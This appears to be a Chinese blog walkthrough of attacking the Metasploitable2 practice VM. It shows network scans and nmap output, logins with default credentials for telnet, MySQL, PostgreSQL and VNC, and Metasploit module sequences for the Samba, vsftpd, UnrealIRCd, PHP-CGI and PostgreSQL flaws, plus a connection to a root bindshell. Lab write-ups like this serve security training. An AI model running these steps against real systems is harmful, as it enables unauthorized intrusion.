# Metasploitable2 靶机详细漏洞介绍及通关

---

# 一、先确定靶机的IP地址

---

先使用arp-scan确定内网存在的IP地址，使用命令如下

```bash
arp-scan -l
```

​​

通过扫描结果可以确定靶机的IP为192.168.23.136

---

# 二、端口扫描

---

使用nmap扫描靶机开放的端口，使用如下命令

```bash
nmap -A -p- 192.168.23.136
```

​​

具体扫描结果如下

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# nmap -A -p- 192.168.23.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-08 01:51 EDT
Nmap scan report for 192.168.23.136
Host is up (0.00060s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.23.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
|_ssl-date: 2023-04-08T05:53:35+00:00; +6s from scanner time.
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
53/tcp    open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      37668/tcp   mountd
|   100005  1,2,3      56434/udp   mountd
|   100021  1,3,4      46449/udp   nlockmgr
|   100021  1,3,4      56366/tcp   nlockmgr
|   100024  1          42941/udp   status
|_  100024  1          53289/tcp   status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login       OpenBSD or Solaris rlogind
514/tcp   open  tcpwrapped
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 9
|   Capabilities flags: 43564
|   Some Capabilities: SupportsCompression, Support41Auth, ConnectWithDatabase, SupportsTransactions, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, LongColumnFlag
|   Status: Autocommit
|_  Salt: \Vz'N6blx8KR8`Z#>MJi
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2023-04-08T05:53:34+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
5900/tcp  open  vnc         VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
| irc-info: 
|   users: 2
|   servers: 1
|   lusers: 2
|   lservers: 0
|   server: irc.Metasploitable.LAN
|   version: Unreal3.2.8.1. irc.Metasploitable.LAN 
|   uptime: 0 days, 0:09:56
|   source ident: nmap
|   source host: 864EB4ED.FF91CB72.FFFA6D49.IP
|_  error: Closing Link: grrtwzfet[192.168.23.128] (Quit: grrtwzfet)
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/5.5
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
37668/tcp open  mountd      1-3 (RPC #100005)
43888/tcp open  java-rmi    GNU Classpath grmiregistry
53289/tcp open  status      1 (RPC #100024)
56366/tcp open  nlockmgr    1-4 (RPC #100021)
MAC Address: 00:0C:29:05:4E:85 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: mean: 1h00m05s, deviation: 2h00m00s, median: 5s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2023-04-08T01:53:25-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.60 ms 192.168.23.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.70 seconds
```

---

# 三、打靶过程

---

## 1、弱命令漏洞

---

系统弱口令密码，使用命令如下，用户名和密码都为msfadmin

```bash
telnet 192.168.23.136
```

​​

---

## 2、Mysql弱密码

---

mysql开启了远程登陆，使用如下命令即可登陆，密码为空

```bash
mysql -h 192.168.23.136 -uroot -p --skip-ssl
```

​​

---

## 3、PostgresQL弱密码

---

使用如下命令即可登陆成功，密码为postgres

```bash
psql -h 192.168.23.136 -U postgres
```

​​

---

## 4、VNC远程登录弱密码

---

使用如下命令即可成功登陆，密码为password

```bash
vncviewer 192.168.23.136
```

​​

---

## 5、Samba MS-RPC Shell命令注入漏洞

---

漏洞产生的原因：通过MS-RPC提供的未过滤的用户输入在调用定义的外部脚本时调用/bin/sh，在smb.conf中，导致允许远程命令执行。

1、先启动msf，命令如下

```bash
msfconsole
```

​​

---

2、搜索相对应的samba漏洞代码，命令如下

```bash
search samba
```

3、使用exploit/multi/samba/usermap_script，命令如下

```bash
use exploit/multi/samba/usermap_script
```

4、设置远程连接IP，命令如下

```bash
set rhosts 192.168.23.136
```

5、运行payload，命令如下

```bash
run
```

​​

---

## 6、Vsftpd源码包含后门漏洞

---

漏洞产生原因:在特定版本的vsftpd服务器程序中，被人恶意植入代码，当用户名以“: )”结尾时，服务器就会在6200端口监听，并且能够执行任意代码

1、在msf中搜索相关漏洞，命令如下

```bash
search vsftpd
```

​​

---

2、使用exploit/unix/ftp/vsftpd_234_backdoor，命令如下

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

​​

3、设置靶机的IP地址，命令如下

```bash
set rhosts 192.168.23.136
```

4、最后运行payload，命令如下

```bash
run
```

​​

---

## 7、UnreallRCd后门漏洞

---

漏洞产生的原因：在2009年11月到2010年6月间分布于某些镜面站点的UnreallRCd，在DEBUG3_DOLOG_SYSTEM宏中包含外部引入的恶意代码，远程攻击者能够执行任意代码

1、在msf中搜索相关漏洞，命令如下

```bash
search unreal ircd
```

2、使用exploit/unix/irc/unreal_ircd_3281_backdoor，命令如下

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
```

3、设置payload，命令如下

```bash
set payload payload/cmd/unix/bind_perl
```

4、设置靶机的IP，命令如下

```bash
set rhosts 192.168.23.136
```

​​

## 8、PHP CGI 参数注入执行漏洞

---

漏洞介绍:GI脚本没有正确处理请求参数，导致源代码泄露，允许远程攻击者在请求参数中插入执行命令。

1、在msf中搜索相关漏洞，命令如下

```bash
```

​​

2、设置相对应的参数，命令如下

```bash
use exploit/multi/http/php_cgi_arg_injection
set rhosts 192.168.23.136
run
```

​​

## 9、Ingreslock后门漏洞

---

漏洞介绍：Ingreslock 后门程序监听在1524端口，连接到1524端口就可以直接获得root权限，使用命令如下

```bash
telnet 192.168.23.136 1524
```

​​

---

## 10、Postgres共享库代码任意执行

---

漏洞介绍：在一些默认的Linux安装的PostgreSQL，postgres服务账户可以写到/tmp目录，还有共享库，允许任意执行代码

1、现在msf搜索相关漏洞，命令如下

```bash
search postgres
```

2、使用exploit/linux/postgres/postgres_payload，命令如下

```bash
use exploit/linux/postgres/postgres_payload
```

3、设置靶机IP与本地IP

```bash
set rhosts 192.168.23.136
set lhost 192.168.23.128
```

​​

‍

---
